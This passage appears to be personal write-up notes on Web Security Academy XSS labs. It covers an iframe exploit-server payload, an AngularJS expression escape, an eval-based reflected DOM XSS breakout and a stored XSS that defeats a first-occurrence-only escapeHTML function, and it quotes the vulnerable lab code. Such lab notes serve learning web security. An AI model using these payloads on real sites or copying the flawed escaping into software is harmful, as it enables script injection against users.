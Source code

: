 In the exploit server Body,

```html
<iframe
  src="https://0a650071031922c2c01e036400e900df.web-security-academy.net#"
  onload="this.src+='<img src=1 onerror=print(1)>'"
/>
```

---

## Lab - 8: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

- on page source `body` element has `ng-app` attribute.
- In search box, `{{$on.constructor('alert(1)')()}}`

---

## Lab - 9: Reflected DOM XSS

- source js file is at `resources/js/searchResults.js`.
- Vulnerable JS script

```javascript
xhr.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    eval("var searchResultsObj = " + this.responseText);
    displaySearchResults(searchResultsObj);
  }
};
```

In search box, `\"-alert(1)}//`

---

## Lab - 10: Stored DOM XSS

- source js file is at `/resources/js/loadCommentsWithVulnerableEscapeHtml.js`
- Vulnerable JS script

```javascript
function escapeHTML(html) {
  return html.replace("<", "&lt;").replace(">", "&gt;");
}
```

replace() function only replaces the first occurrence.

- In search box, `<><img src=x onerror=alert(1)/>`

---

# XSS Context - between HTML tags
